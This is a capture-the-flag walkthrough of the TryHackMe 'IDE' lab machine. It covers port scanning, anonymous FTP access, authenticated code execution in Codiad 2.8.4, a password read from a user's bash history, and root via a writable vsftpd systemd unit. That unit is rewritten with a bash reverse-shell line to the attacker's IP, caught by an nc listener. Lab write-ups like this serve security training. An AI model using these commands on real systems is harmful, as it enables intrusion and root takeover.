







**Hi, There,**
I got a spare time to solve IDE box from try hack me, here is how i did it, this a easy box that help you with enumerations skills when doing penetration tests.lets see how to solve this easy box peacefully.   


## Recon

### nmap

got 4 ports, 21,22,80,62337

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --open -sV -A -n -Pn 10.10.106.60
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 17:40 EAT
Nmap scan report for 10.10.106.60
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.113.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2bed33ce87681ef477ed043d4281428 (RSA)
|   256 a882e961e4bb61af9f3a193b64bcde87 (ECDSA)
|_  256 244675a76339b63ce9f1fca413516320 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/14%OT=21%CT=1%CU=44647%PV=Y%DS=2%DC=T%G=Y%TM=65031BB
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:07%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=C)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```


### website

#### Site
`website :80 `
nothing just Apache default page,

---
`webiste :62337`
site: 
there login page




#### tech stack
it run codiac web based cloud IDE ,version  Codiad 2.8.4

### other services
---

`SSH`
PORT:22
Not much, it just show based on version its a ubuntu linux

---

`FTP`
PORT:21
seems it allow anonymous login

---

## Shell as www-data
### Identify Vulnerability
we target website on port 62337, search for codiac 2.8.4 exploit



### Vulnerability Details

Codiad 2.8.4 has suffered from Remote Code Execution (Authenticated) , since its Authenticated bug then we must have a credentials to exploit
### Exploit
tested for default credentials and didn't work, i decided to check for FTP service
found the hidden folder `...` and inside the file called `-`


content of `-` file



i guessed credentials could be john: password

found this POC link [codiac POC](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

exploit it, got shell as www-data



lets upgrade shell,

```
ww-data@ide:/var/www/html/codiad/components/filemanager$ script /dev/null -c bash
<ad/components/filemanager$ script /dev/null -c bash      
Script started, file is /dev/null
www-data@ide:/var/www/html/codiad/components/filemanager$ ^Z
zsh: suspended  nc -lnvp 9112
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 9112
                               reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@ide:/var/www/html/codiad/components/filemanager$ 

```
ready to go, so you can use sudo,su, etc

---

## shell as  drac

looking around, i wanted to upload linpeas but i could not, so i decided to go manual looking for juicy file, then i found password under drac home bash history

```

www-data@ide:/var/www/html/codiad$ ls -la /home/drac/               
total 56
drwxr-xr-x 7 drac drac 4096 Sep 15 16:49 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
drwx------ 2 drac drac 4096 Sep 15 15:51 .ssh
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-rw-rw-r-- 1 drac drac    0 Sep 15 16:49 file
-rw-rw-r-- 1 drac drac    0 Sep 15 15:48 linpeas.sh
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
www-data@ide:/var/www/html/codiad$ cat /home/drac/.bash_history     
mysql -u drac -p 'Th3dRaCULa1sR3aL'
www-data@ide:/var/www/html/codiad$ 

```
login as drac user, mysql password
```
www-data@ide:/var/www/html/codiad$ su drac
Password: 
drac@ide:/var/www/html/codiad$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:/var/www/html/codiad$ 

```
---

## shell as  root

### Enumeration
run 
```
drac@ide:/var/www/html/codiad$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
drac@ide:/var/www/html/codiad$
```

crucial output

```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart

```

### Vulnerability Details

The **service** command is vulnerable to privilege escalation if we can execute as root.
so i searched for exploit



### exploit

now using this POC link [ service exploit ](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-service-privilege-escalation/)

check vsftpd service file

```
drac@ide:~$ /usr/sbin/service vsftpd status
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Fri 2023-09-15 15:19:36 UTC; 1h 8min ago
  Process: 741 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 812 (vsftpd)
    Tasks: 1 (limit: 498)
   CGroup: /system.slice/vsftpd.service
           └─812 /usr/sbin/vsftpd /etc/vsftpd.conf

Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.
```

we found
```
/lib/systemd/system/vsftpd.service
```

check write permission

```
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service

```

we can see file is writable with group drac, well means we can write it

final exploit , on IDE client machine
i did this using `echo` to rewrite existing service configuration with mine, that will give me root shell when vsftpd restarted as root
```
drac@ide:~$ echo -e "Description=vsftpd FTP server \nAfter=network.target \n[Service] \nType=simple \nExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf \nExecReload=/bin/kill -HUP $MAINPID \nExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/10.9.113.16/1337 0>&1' \n[Install] \nWantedBy=multi-user.target" > /lib/systemd/system/vsftpd.service
```

then, reload daemon

```
drac@ide:~$ systemctl daemon-reload
```

on my machine

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337
```

on IDE client machine,

```
drac@ide:~$ sudo /usr/sbin/service vsftpd restart

```

got root


Done!! Happy Hacking

